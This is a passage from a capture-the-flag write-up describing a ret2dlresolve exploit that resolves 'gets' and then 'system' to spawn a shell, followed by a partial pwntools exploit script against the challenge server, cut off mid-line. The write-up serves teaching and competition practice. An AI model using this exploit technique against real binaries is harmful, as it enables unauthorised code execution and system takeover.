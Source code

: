 Another way to write to `_IO_stdfile_0_lock` is to use an input function that doesn't need `stdin`. Then, we can simply
call that function without needing to care about `rdx` being set to `stdin`. So let's resolve `gets` first!

After `gets` is resolved, it will be called with `rdi` pointing to `_IO_stdfile_0_lock`, and hence write our input into
there. In my exploit, I chose to write the address of `gets` to the `fgets` GOT, but it doesn't really matter, because
for all intents and purposes, `gets` and `fgets` behave identically for us. After `gets` is finished, it also ends up
with the same `_IO_stdfile_0_lock` in `rdi`, which allows us to resolve `system` directly after with `rdi` pointing to
`sh\x00`.

## Exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = context.binary = ELF("./challenge")
libc = ELF("./lib/libc.so.6")

context.binary = exe
context.terminal = ["tmux", "splitw", "-v"]

if args.LOCAL:
    p = process()
    if args.GDB:
        gdb.attach(p, gdbscript="b *gets")
        pause()
else:
    p = remote("challs.nusgreyhats.org", 35123)

# good luck pwning :)

payload = flat(
    b"a",
    0x404f30,
    0x401142,
)
p.sendline(payload)

strtab = 0x400450
symtab = 0x4003d8
jmprel = 0x400528

writable = 0x404f50

Str_addr = writable + 0x18 + 0x10
str_idx = Str_addr - strtab
Str_struct = b"gets\x00"

Sym_addr = writable
sym_idx = int((Sym_addr - symtab) / 0x18)
st_name = p32(str_idx)
st_info = p8(0x12)
st_other = p8(0)
st_shndx = p16(0)
st_value = p64(0)
st_size = p64(0)
Sym_struct = st_name \
```